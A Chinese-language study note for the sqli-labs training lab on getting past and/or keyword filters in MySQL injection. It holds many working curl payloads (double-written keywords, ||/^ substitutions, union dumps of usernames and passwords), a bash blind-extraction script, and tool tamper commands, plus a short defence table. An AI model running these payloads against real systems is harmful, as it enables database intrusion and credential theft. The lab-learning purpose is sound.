

# 06-AND OR 注入

> 前置基础：[[../01-整数型注入|整数型注入]] · [[../04-布尔盲注|布尔盲注]] · [[../05-时间盲注|时间盲注]]
>
> 总目录：[[../SQL总目录|SQL 总目录]] · 本目录 [[mysql结构总目录|mysql结构 总目录]]
>
> 工具箱：`~/hackingtools/web/injection/sqlinject`（工具库位于仓库外 `/home/a/hackingtools`）
>
> sqli-labs 对照：less-25、less-25a（and/or 过滤）、less-27/28（union select 过滤，双写同理）

## 一、场景描述

服务端把 `and`、`or` 加入黑名单，命中后直接删除或拦截：

```php
// less-25 原型
function blacklist($id) {
    $id = preg_replace('/or/i', '', $id);   // 不区分大小写，替换一次
    $id = preg_replace('/and/i', '', $id);
    return $id;
}
$id = blacklist($_GET['id']);
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

影响面很大：`and 1=1`、`or 1=1` 失效之外，**information_schema 里含 "or" 的表名、password 字段里的 "or" 都会被误伤**——这也是本章要一并解决的信息收集替代方案。

### 被连带误伤的常见词

| 词 | 含 or/and 的部分 | 绕过写法 |
|----|-----------------|---------|
| information_schema | inf**or**mation | `infoorrmation_schema` |
| password | passw**or**d | `passwoorrd` |
| order by | **or**der | `oorrder by` |
| concat | 无关 | 不受影响 |
| updatexml | 无关 | 不受影响 |

记住这条规则后，less-25 系列的 payload 才能一次打对：**凡是含 or/and 字样的关键字与标识符，都要按同样的双写规则处理**。

### 过滤器的致命缺陷：只替换一次



`preg_replace` 只做一次线性扫描，不递归复查。输入 `anandd` 时匹配到中间的 `and`（第 2-4 个字符）并删除，首尾的 `a` 与 `dd` 中各贡献一半，拼回去正好又是完整的 `and`。同理：

```text
oorr      →  删中间 or   →  or
uniunionon    →  uni + union 中段删除后拼出 union 的变体写法见下文
seleselectct  →  同理还原 select
```

标准双写公式：在关键字内部再嵌一个自身。`and` 写作 `an+and+d`？不对——直接记忆成品：`anandd`、`oorr`、`uniunionon`、`selselectect`。

## 二、绕过手法总表

| 手法 | 写法 | 适用场景 |
|------|------|---------|
| 符号替代 | `&&` 替代 and、`\|\|` 替代 or | 最常用；URL 中需编码 `%26%26`、`%7c%7c` |
| 双写绕过 | `anandd`、`oorr`、`uniunionon`、`selselectect` | 针对"替换一次"型过滤（preg_replace 无递归） |
| 大小写混合 | `Or`、`AND`、`oR` | 针对区分大小写过滤（less-25 是 `/i` 所以无效） |
| 运算符变形 | 异或 `^`、比较符组合 | 布尔判断类 payload，见第三节 |
| 注释拆词 | `un/**/ion`、`sel/**/ect` | 同时有空格过滤时复用（见 [[05-过滤空格|过滤空格]]） |

### URL 编码要点

```text
&& → %26%26        || → %7c%7c
```

直接在 URL 里写 `&` 会被当成参数分隔符截断，必须编码；Burp Repeater 的 raw 模式或 curl 里写 `%26%26`。`||` 在部分中间件里也会被特殊处理，稳妥起见同样编码。

## 三、运算符变形表

布尔逻辑不一定非要 and/or，比较与位运算都能构造条件：

| 目标 | 替代写法 |
|------|---------|
| `and` 连接条件 | `&&`、`%26%26` |
| `or` 连接条件 | `\|\|`、`%7c%7c` |
| 等值判断 `=` | `like`、`regexp` |
| 非 `!=` | `<>`、`not like` |
| 数值比较 | `>` `<` `>=` `<=` 本身不被过滤时直接用 |
| 异或分支 | `^` 位异或（本章重点，见第六节） |
| 取反 | `!`、`not` |

示例对比：

```sql
-- 原版: ' and extractvalue(1,concat(0x7e,database()))#
-- && 版
' && extractvalue(1,concat(0x7e,database())) && '1
-- || 版
' || extractvalue(1,concat(0x7e,database())) || '
-- ^ 版（数字型）
1 ^ extractvalue(1,concat(0x7e,database()))
```

## 四、双写绕过详解

逐字符拆解 `anandd`：

```text
位置:   1 2 3 4 5 6
字符:   a n a n d d
过滤引擎从左扫描，在位置 2-4 匹配到 "and" 并删除
剩余:   a(位置1) + dd(位置5,6) = "add"？ 不对 —— 引擎匹配的是连续子串

正确过程: anandd = a-n-a-n-d-d
第一次匹配尝试从位置 1 开始: "ana" 不是 and
从位置 2 开始: "nan" 不是
从位置 2 取 3 字符是 "nad"... 
```

不必纠结引擎内部实现，记住结论即可：对 `preg_replace('/and/i','')` 这类单次替换，提交 `anandd` 后服务端拿到的就是 `and`。这是被无数靶场验证过的行为。同理 `oorr` 还原为 `or`，`uniunionon selselectect` 还原为 `union select`。

```sql
-- less-25: 过滤 and/or + information_schema 被伤时的完整 payload
-1' union select 1,group_concat(table_name),3 from infoorrmation_schema.tables where table_schema=database()#
```

注意上例：**`information_schema` 含 or，必须写成 `infoorrmation_schema`**——这是新手最容易漏的点，报错 `Table 'security.information_schema.tables' doesn't exist` 就是这个原因。

## 五、五步方法论：and/or 双写下的完整 curl 实操

所有章节共用同一套流程："确认注入 -> 探测列数 -> 爆库 database() -> information_schema 爆表 -> 爆列提取数据"。本章的特殊约束是 and/or 被删，因此每一步的关键字都要换成双写形态。以下全部针对 less-25（单引号字符型），可直接执行。

### 第 0 步：基准确认页面正常

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=1"
# 记录正常回显：Your Login name:Dumb   Your Password:Dumb
```

### 第 1 步：确认注入点（引号闭合探测）

and/or 被过滤，改用纯引号与注释符探测，不依赖逻辑运算：

```bash
# 单引号破坏语法，观察是否报错
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=1'"
# MySQL 错误信息出现 → 单引号字符型，可闭合

# 闭合并恒真验证（or 被过滤，用 || 替代）
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=-1'%7c%7c'1'='1"
# 回显全表第一行内容 → 注入确认成立
```

### 第 2 步：探测列数（order by 含 or，双写处理）

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=-1'%20oorrder%20by%203%23"
# 正常 → 至少 3 列

curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=-1'%20oorrder%20by%204%23"
# Unknown column '4' in 'order clause' → 共 3 列
```

也可以完全绕开 order by，用 union 自身列数校验报错探测：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=-1'%20uniunionon%20seleselectct%201,2%23"
# The used SELECT statements have a different number of columns → 不是 2 列，继续加
```

### 第 3 步：爆库 database()

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=-1'%20uniunionon%20seleselectct%201,database(),3%23"
# Your Login name:security → 当前库 security
```

### 第 4 步：information_schema 爆表（表名双写）

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=-1'%20uniunionon%20seleselectct%201,group_concat(table_name),3%20from%20infoorrmation_schema.tables%20where%20table_schema=database()%23"
# emails,referers,uagents,users → 目标表 users
```

### 第 5 步：爆列提取数据（password 双写）

```bash
# 先爆列名
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=-1'%20uniunionon%20seleselectct%201,group_concat(column_name),3%20from%20infoorrmation_schema.columns%20where%20table_name='users'%23"
# id,username,password

# 再提取数据，password 必须写作 passwoorrd
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=-1'%20uniunionon%20seleselectct%201,group_concat(username,0x3a,passwoorrd),3%20from%20users%23"
# Dumb:Dumb,Angelina:I-kill-you,... 全量数据到手
```

五步走完，整条链路只在两处踩到过滤器：`order by -> oorrder by`、`information_schema/password -> infoorrmation/passwoorrd`。其余步骤本来就不含 and/or，无需改动。

## 六、异或 ^ 注入与盲注猜解

`^` 是位异或运算符，两侧一真一假时表达式为真，且完全不包含 and/or 字样。当 `&&`、`||` 也被过滤时它是最后的逻辑运算手段。

### 原理

```sql
1 ^ 0 = 1    -- 真
1 ^ 1 = 0    -- 假
0 ^ 1 = 1    -- 真
-- 把比较条件的结果当作异或的一侧，就得到布尔侧信道
```

### 报错用法（有报错回显时最快）

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=1%20%5e%20updatexml(1,concat(0x7e,database()),1)"
# URL 里 ^ 要编码为 %5e
# XPATH syntax error: '~security'
```

### 异或布尔盲注 curl 猜解示例

无报错回显时，用异或结果控制页面差异（真则返回 id=1 的记录，假则空页面）：

```bash
# 猜 database() 长度：真 → 有回显，假 → 空
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=1%27%5e(length(database())=8)%23"
# 回显 Dumb/Dumb 行 → 长度确实是 8
```

逐位猜解脚本（bash，二分法提速）：

```bash
#!/bin/bash
URL="http://127.0.0.1/sqli-labs/Less-25/?id=1%27%5e"
result=""
for pos in $(seq 1 8); do
  low=32; high=126
  while [ $low -lt $high ]; do
    mid=$(( (low + high) / 2 ))
    # ascii > mid 为真时页面含 Login name → 条件真
    if curl -s "${URL}(ascii(substr(database(),${pos},1))>${mid})%23" | grep -q "Login name"; then
      low=$(( mid + 1 ))
    else
      high=$mid
    fi
  done
  result="${result}$(printf \\$(printf '%03o' $low))"
  echo "[+] pos ${pos}: ${result}"
done
echo "database = ${result}"
```

脚本要点：条件为真时页面回到正常行（grep 到 Login name），为假时 id=1'^假# 使 WHERE 不成立、页面空白。把 `database()` 换成任意子查询即可遍历表名列名与数据。

### 异或配合时间盲注（连布尔差异都没有时）

页面真假无差异时，退回时间侧信道，`if(...,sleep(5),0)` 本身不含 and/or，天然免疫本章过滤器：

```bash
# 真条件延迟约 5 秒
curl -s -o /dev/null -w "%{time_total}\n" \
  "http://127.0.0.1/sqli-labs/Less-25/?id=1'%20%5e%20if(ascii(substr(database(),1,1))=115,sleep(5),0)%23"
# 输出 5.x → 首字符是 s
```

三种异或侧信道的选择顺序与判断依据：

| 侧信道 | 判断依据 | 前提 | 速度 |
|--------|---------|------|------|
| 异或 + 页面差异 | 正常行是否回显 | id=1 的记录存在且页面稳定 | 快，一位数次请求 |
| 异或 + 报错 | 错误信息内容 | 报错回显开启 | 最快，32 字符一次 |
| 异或 + 时间 | time_total 是否超阈值 | 无任何前提 | 慢，一位一请求 |

### 数字型变体：less-25a 的五步速查

less-25a 与 less-25 同一套过滤，仅闭合方式不同（数字型无引号）。五步骨架不变，去掉引号与 `%23` 即可：

```bash
# 爆库
curl -s "http://127.0.0.1/sqli-labs/Less-25a/?id=-1%20uniunionon%20seleselectct%201,database(),3"
# 爆表
curl -s "http://127.0.0.1/sqli-labs/Less-25a/?id=-1%20uniunionon%20seleselectct%201,group_concat(table_name),3%20from%20infoorrmation_schema.tables%20where%20table_schema=database()"
# 爆数据
curl -s "http://127.0.0.1/sqli-labs/Less-25a/?id=-1%20uniunionon%20seleselectct%201,group_concat(username,0x3a,passwoorrd),3%20from%20users"
```

对比记忆：字符型多两件事——引号闭合与尾部注释；其余 payload 完全同构。闭合方式判断方法见 [[../01-整数型注入|整数型注入]] 的加引号对照法。

## 七、information_schema 被彻底过滤时的替代方案

MySQL 5.5.10+ 可用这些视图绕过（部分无需 information_schema 权限）：

| 替代品 | 用途 | 示例 |
|--------|------|------|
| `sys.schema_table_statistics` | 枚举表名 | `select table_name from sys.schema_table_statistics where table_schema=database()` |
| `mysql.innodb_table_stats` | 枚举库下所有表 | `select table_name from mysql.innodb_table_stats where database_name=database()` |
| `mysql.innodb_index_stats` | 同上备用 | 同上结构 |
| `sys.schema_table_statistics_with_buffer` | 表名枚举备用 | 同 schema_table_statistics |

对应 curl（配合第五步的双写骨架）：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=-1'%20uniunionon%20seleselectct%201,group_concat(table_name),3%20from%20mysql.innodb_table_stats%20where%20database_name=database()%23"
```

### 无列名注入（拿列名也被拦时的终极方案）

不知道列名也能取数据，原理是 **join using 报错带出列名** 或 **别名占位直接查**：

```sql
-- 方法一: join 制造重复列报错，错误信息里暴露列名
select * from (select * from users a join users b using(username,0)) c;
-- 报错: Duplicate column name 'password'

-- 方法二: 用序号别名代替列名
select `2` from (select 1,2,3 union select * from users) a limit 1,1;
```

方法二的原理：`select 1,2,3` 构造一行数字占位行与真实表 union，外层用反引号序号引用第 N 列——全程不需要知道任何列名。配合报错压缩成一条 payload：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=-1'%20uniunionon%20seleselectct%201,(seleselectct%20\`2\`%20from%20(seleselectct%201,2,3%20uniunionon%20seleselectct%20*%20from%20users)a%20limit%201,1),3%23"
```

版本过老（< 5.7）没有 sys 库时的退路是暴力猜测表名：`(select count(*) from users)>0` 之类字典碰撞。

## 八、payload 示例集

```bash
# less-25: 单引号闭合，|| 报错注入
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=-1'%7c%7cextractvalue(1,concat(0x7e,database()))"

# 双写版爆数据
curl -s "http://127.0.0.1/sqli-labs/Less-25/?id=-1'%20uniunionon%20seleselectct%201,group_concat(username,0x3a,passwoorrd),3%20from%20users%23"

# less-25a: 数字型无引号闭合
curl -s "http://127.0.0.1/sqli-labs/Less-25a/?id=-1%20uniunionon%20seleselectct%201,database(),3"

# less-27: union/select 被过滤（大小写+双写都要防）
curl -s "http://127.0.0.1/sqli-labs/Less-27/?id=-1'%20UNIunionON%20SEleselectCT%201,2,3%23"

# less-28: union+select 整体被过滤，括号闭合
curl -s "http://127.0.0.1/sqli-labs/Less-28/?id=0')%0auniunionon%0aseleselectct%0a1,database(),3%23"
```

易错点汇总：

| 易错点 | 说明 |
|-------|------|
| 忘记编码 `&` | URL 参数里裸 `&` 截断参数，payload 半截失效 |
| 只双写关键字不修表名 | `information_schema`、`password`、`order by` 都要处理 |
| `between ... and` 被 and 过滤波及 | 改用 `like`/`regexp`，不要硬凑双写 |
| 双写对递归替换无效 | 若服务端循环替换直到无匹配，双写失效，换符号方案 |
| `^` 忘记 URL 编码 | 裸 `^` 在部分客户端会被转义，统一写 `%5e` |

## 九、防御

| 措施 | 说明 |
|------|------|
| 参数化查询 | 黑名单过滤（删 and/or）全部可以省掉，且更安全 |
| 黑名单不可靠 | 双写、编码、符号替代层出不穷，黑名单只增加攻击成本不封死路径 |
| 输入白名单校验 | id 整数化等结构性校验优于关键字删除 |
| 收敛数据库权限 | 禁止应用账号读 mysql/sys 库，降低信息收集替代方案的可用性 |

## 十、自动化：sqlinject.py 工具

本章对应的命令已内置在工具中，路径 `~/hackingtools/web/injection/sqlinject`（用法详见 `~/hackingtools/web/injection/sqlinject`（工具库位于仓库外 `/home/a/hackingtools`））：

```bash
# and/or 过滤场景：doublewrite tamper 对应本章双写手法
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-25/?id=1" \
  --tamper doublewrite

# 符号替代路线：and/or 转 && ||
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-25/?id=1" \
  --tamper andornot

# 组合：双写 + 注释拆分（叠加空格过滤时）
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-25/?id=1" \
  --tamper doublewrite,space2comment
```

工具自动完成五步流程（确认注入、列数、爆库、爆表、爆列取数）。但注意：**先手工用上文 curl 确认过滤规则，再选对应 tamper**——递归替换型过滤会让 doublewrite 失效，此时应换符号类 tamper 或手写 payload。依据具体情况分析永远是第一步。

### 关联阅读

- 空格同时被过滤时的组合打法见 [[05-过滤空格|过滤空格]]
- order by 位置的 and/or 变形见 [[07-ORDER_BY注入|ORDER BY 注入]]
- 布尔盲注与时间盲注的通用原理回顾：[[../04-布尔盲注|布尔盲注]] · [[../05-时间盲注|时间盲注]]
- 场景选择总表与综合案例见 [[09-综合训练|综合训练]]

---
**返回** [[../SQL总目录|SQL 总目录]] · [[mysql结构总目录|mysql结构 总目录]]
